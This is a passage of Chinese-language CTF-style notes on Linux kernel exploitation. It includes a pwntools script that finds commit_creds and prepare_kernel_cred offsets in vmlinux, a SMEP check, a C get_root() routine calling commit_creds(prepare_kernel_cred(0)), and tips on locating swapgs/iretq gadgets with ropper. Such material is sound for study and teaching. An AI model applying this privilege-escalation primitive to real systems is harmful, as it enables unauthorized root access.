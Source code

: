 - vmlinux中的函数偏移可以用脚本实现

```python
from pwn import *
elf = ELF('./core/vmlinux')
print "commit_creds",hex(elf.symbols['commit_creds']-0xffffffff81000000)
print "prepare_kernel_cred",hex(elf.symbols['prepare_kernel_cred']-0xffffffff81000000)
```



- 假如程序smep保护没开，那么内核态下也能执行用户空间的代码，就可以在exp中添加执行 commit_creds(prepare_kernel_cred(0)) 的函数（这么做的原因是可以少构造一段gadget，代码会短一点而已）。

smep保护可以直接从启动qemu的脚本boot.sh中查看，也可以通过 

```shell
cat /proc/cpuinfo | grep smep
```

来查看，假如没有回显，那么就是未开启

用户态下构造commit_creds(prepare_kernel_cred(0))，前提是两个函数的地址已经知道。

```c
void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    /* puts("[*] root now."); */
}
```



- `swapgs` & `iretq` 

这两个片段都可以在vmlinux中找到，当然假如驱动里面有这些片段并且基地址已经泄露那么也是可以利用的。不过用ropper的时候要注意虚拟机内存和处理器内核数量设大一点，要不然会跑的很慢而且还不一定跑的出来。

![](4.png)

![](5.png)
